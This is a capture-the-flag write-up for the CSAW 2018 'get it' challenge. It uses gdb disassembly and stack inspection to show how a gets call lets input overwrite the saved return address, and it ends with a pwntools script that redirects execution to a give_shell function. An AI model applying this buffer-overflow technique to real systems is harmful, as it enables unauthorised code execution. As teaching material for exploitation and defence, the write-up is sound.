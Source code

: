 # csaw18 get it

Buffer overflow challenge from csaw 18 in nightmare
Main goal is to get control over the saved return address on the stack.

Nothing interesting in the main function, except the fact that it uses the `gets` function that we can exploit with a buffer overflow. 

```nasm
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:	push   rbp
   0x00000000004005c8 <+1>:	mov    rbp,rsp
   0x00000000004005cb <+4>:	sub    rsp,0x30
   0x00000000004005cf <+8>:	mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:	mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:	mov    edi,0x40068e
   0x00000000004005db <+20>:	call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:	lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:	mov    rdi,rax
   0x00000000004005e7 <+32>:	mov    eax,0x0
   0x00000000004005ec <+37>:	call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:	mov    eax,0x0
   0x00000000004005f6 <+47>:	leave
   0x00000000004005f7 <+48>:	ret
End of assembler dump.
```

Let’s see all the functions the program has:

```nasm
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000400438  _init
0x0000000000400470  puts@plt
0x0000000000400480  system@plt
0x0000000000400490  __libc_start_main@plt
0x00000000004004a0  gets@plt
0x00000000004004b0  __gmon_start__@plt
0x00000000004004c0  _start
0x00000000004004f0  deregister_tm_clones
0x0000000000400530  register_tm_clones
0x0000000000400570  __do_global_dtors_aux
0x0000000000400590  frame_dummy
0x00000000004005b6  give_shell
0x00000000004005c7  main
0x0000000000400600  __libc_csu_init
0x0000000000400670  __libc_csu_fini
0x0000000000400674  _fini
```

Now we see our target : `give_shell` at the address `0x00000000004005b6`

```nasm
gef➤  disas give_shell
Dump of assembler code for function give_shell:
   0x00000000004005b6 <+0>:	push   rbp
   0x00000000004005b7 <+1>:	mov    rbp,rsp
   0x00000000004005ba <+4>:	mov    edi,0x400684
   0x00000000004005bf <+9>:	call   0x400480 <system@plt>
   0x00000000004005c4 <+14>:	nop
   0x00000000004005c5 <+15>:	pop    rbp
   0x00000000004005c6 <+16>:	ret
```

As expected, this function gives the attacker access to a shell in order to `cat` the `flag`. 

Now let’s run our program in gdb with a breakpoint right after the input (address `0x4005f1`) to inspect the stack behavior: 

Here’s how the stack looks with the input “AAAAAAAAAA” : 

```nasm
────────────────────────────── stack ────────────────────────────
0x00007fffffffe290│+0x0000: 0x00007fffffffe3d8  →  0x00007fffffffe64a  ← $rsp
0x00007fffffffe298│+0x0008: 0x0000000100000000
0x00007fffffffe2a0│+0x0010: "AAAAAAAAAA"	 ← $rax
0x00007fffffffe2a8│+0x0018: 0x0000000000004141 ("AA"?)
0x00007fffffffe2b0│+0x0020: 0x0000000000000000
0x00007fffffffe2b8│+0x0028: 0x0000000000000000
0x00007fffffffe2c0│+0x0030: 0x0000000000000001	 ← $rbp
0x00007fffffffe2c8│+0x0038: 0x00007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
```

As we can see, it’s loaded at the address `0x7fffffffe2a0`, pointed by the `rax` register. Our target is the address `0x7fffffffe2c8`, at $rbp+0x8. 

The offset between our two addresses is easily calculated : `0x38-0x10 = 0x28`, so `40` in decimal. 

Now we have everything we need to know in order to write our script, that will look like this : 

```python
from pwn import *

target = process("./get_it")

payload = b""
payload += b"0"*0x28
payload += p64(0x4005b6)

target.sendline(payload)

target.interactive()
```
